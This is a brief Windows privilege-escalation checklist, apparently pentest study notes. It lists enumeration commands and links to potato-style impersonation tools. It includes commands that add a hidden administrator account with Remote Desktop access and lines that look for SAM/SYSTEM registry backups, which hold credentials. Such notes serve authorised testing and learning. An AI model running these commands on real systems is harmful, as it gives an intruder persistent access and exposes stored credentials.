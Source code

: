 # Windows Privilege Escallation
- [ ] OS and Kernel information: `systeminfo`
- [ ] Current User: `whoami /all`
- [ ] Local Users: `net users`
- [ ] Local Groups: `net localgroup`
- [ ] Network interfaces: `ipconfig`
- [ ] Open Ports: `netstat -ano`
- [ ] `whoami /priv` -> SeImpersonatePrivilege
  - [ ] [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
- [ ] Check file permissions: `icacls "\path\to\file"`

# SeImpersonatePrivilege
- [GodPotato](https://github.com/BeichenDream/GodPotato)

---

- Check if there is a port that is open only internally (`netstat –nao`)
- Port forward if there is a new port internally and start checking it from zero
- Creating admin user which has RDP access

```
net user /add haji haji
net localgroup administrators haji /add
net localgroup "Remote Desktop Users" haji /add
```


## Binary Hijacking


## DLL Hijacking


---

```
My first commands I use when getting a Windows shell are below. Enumerate OS etc, check for JuicyPotato, common password locations and running netstat.

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
whoami /priv
netstat –nao
dir C:\Windows\System32\config\RegBack\SAM
dir C:\Windows\System32\config\RegBack\SYSTEM
```

